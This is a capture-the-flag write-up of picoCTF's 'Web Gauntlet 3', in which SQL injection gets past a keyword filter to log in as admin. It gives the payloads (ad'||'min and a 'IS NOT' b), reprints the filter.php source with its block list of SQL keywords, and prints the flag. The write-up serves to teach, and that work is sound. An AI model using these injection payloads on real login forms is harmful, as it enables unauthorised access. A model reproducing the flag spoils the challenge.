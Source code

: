 # Web Gauntlet 3
## Write-up author: [jon-brandy](https://github.com/jon-brandy)
## DESCRIPTION:

```
If the flag is not displayed after completing this challenge, 
try clearing your cookies. Cookies set by other challenges may prevent the flag from displaying properly.
```

Last time, I promise! Only 25 characters this time. 
Log in as admin Site: http://mercury.picoctf.net:24143/ Filter: http://mercury.picoctf.net:24143/filter.php

## HINTS:
1. Each filter is separated by a space. Spaces are not filtered.
2. There is only 1 round this time, when you beat it the flag will be in filter.php.
3. sqlite

## STEPS:
1. First open the website given and the `filter` website.

![image](https://user-images.githubusercontent.com/70703371/179445184-e1a24a42-6c95-4f1f-a113-58a1beeee0c3.png)

2. Seems the website doesn't filter the `'` and `||` symbol.
3. Try to enter the username as `ad'||'min` and the password as `ad'||'min`.

> OUTPUT:

![image](https://user-images.githubusercontent.com/70703371/179445256-13e9df6a-76e8-48e1-a5eb-059ed1363833.png)

4. Let's enter the password as `a 'IS NOT' b` and the username as `ad'||'min`

![image](https://user-images.githubusercontent.com/70703371/179445391-e1a0ea4b-1853-45bd-9abd-4ac445a600fc.png)

5. Yes, we got it! Now open the `filter.php` file.

![image](https://user-images.githubusercontent.com/70703371/179445439-af53a8fd-87fd-4706-9273-c54182c68776.png)

```html
 <?php
session_start();

if (!isset($_SESSION["winner3"])) {
    $_SESSION["winner3"] = 0;
}
$win = $_SESSION["winner3"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner3"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner3"] = 0;
}

// picoCTF{k3ep_1t_sh0rt_fc8788aa1604881093434ba00ba5b9cd}
?>

```

6. Finally, we got the flag!

---
## FLAG

```
picoCTF{k3ep_1t_sh0rt_fc8788aa1604881093434ba00ba5b9cd}
```
